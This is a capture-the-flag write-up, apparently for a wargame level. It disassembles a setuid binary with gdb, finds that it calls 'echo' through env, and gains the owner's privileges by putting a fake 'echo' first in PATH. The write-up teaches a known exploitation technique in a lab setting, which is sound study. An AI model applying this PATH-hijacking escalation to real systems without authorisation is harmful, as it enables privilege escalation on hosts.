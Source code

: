 # Step1
executable ``level03` is presents in the home directory

`-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03`

- the owner is `flag03`
- the `s` permission is set, so it will run with the owner's permission
- runnig it display `Exploit me`

# Step 2

with `gdb` we will analyze the binary

```bash
gdb level03
(gdb) break main
(gdb) run
(gdb) disas
(gdb) next
```

`Exploit me` appears on the succession of a `call` instruction and a `movl` instruction:

`0x080484fe <+90>:	call   0x80483b0 <system@plt>`
`0x080484f7 <+83>:	movl   $0x80485e0,(%esp)`


```bash
(bsd) print (const char *) 0x80485e0
```

Or

```bash
(bsd) x/s 0x80485e0
```

### Result
`0x80485e0:	 "/usr/bin/env echo Exploit me"`

# Step 3

Because the binary is running with the owner's permission, and call the `echo` built-in command.

We can create a fake `echo` command that will execute the `getflag` command by copy the `getflag` binary under the name `echo`(eslewhere and first in the $PATH).

```bash
which getflag
cp /bin/getflag /tmp/echo
export PATH=/tmp:$PATH
./level03
```

### Result
Runnig ./level03 runs `getflag` as `flag03` user and gives us the flag 

No password needed for `flag03`
